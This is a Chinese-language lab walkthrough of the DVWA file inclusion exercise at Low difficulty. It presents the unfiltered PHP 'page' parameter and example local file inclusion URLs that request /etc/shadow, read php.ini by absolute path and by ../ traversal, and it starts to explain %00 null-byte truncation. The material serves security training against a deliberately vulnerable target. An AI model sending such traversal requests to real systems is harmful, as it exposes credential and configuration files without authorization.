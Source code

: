 phpstudy开一下这2个参数
![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa15.png)

### Low

**服务器端核心代码**
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?>
```

可以看到,服务器端对 page 参数没有做任何的过滤跟检查.

服务器期望用户的操作是点击下面的三个链接,服务器会包含相应的文件,并将结果返回.需要特别说明的是,服务器包含文件时,不管文件后缀是否是 php,都会尝试当做 php 文件执行,如果文件内容确为 php,则会正常执行并返回结果,如果不是,则会原封不动地打印文件内容,所以文件包含漏洞常常会导致任意文件读取与任意命令执行.

点击 file1.php 后,显示如下

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa16.png)

而现实中,恶意的攻击者是不会乖乖点击这些链接的,因此 page 参数是不可控的.

**本地文件包含**

构造 url`http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=/etc/shadow`
报错,显示没有这个文件,说明不是服务器系统不是 Linux,但同时暴露了服务器文件的绝对路径

![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa17.png)

- **构造url(绝对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=C:/phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa18.png)

    成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url(相对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录,可以看到读取是成功的.

    ![](../../../../../assets/img/安全/实验/Web/靶场/dvwa/dvwa19.png)

    同时我们看到,配置文件中的 Magic_quote_gpc 选项为 off.在 php 版本小于 5.3.4 的服务器中,当 Magic_quote_gpc 选项为 off 时,我们可以在文件名中使用 %00 进行截断,也就是说文件名中 %00 后的内容不会被识别,即下面两个 url 是完全等效的.

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini
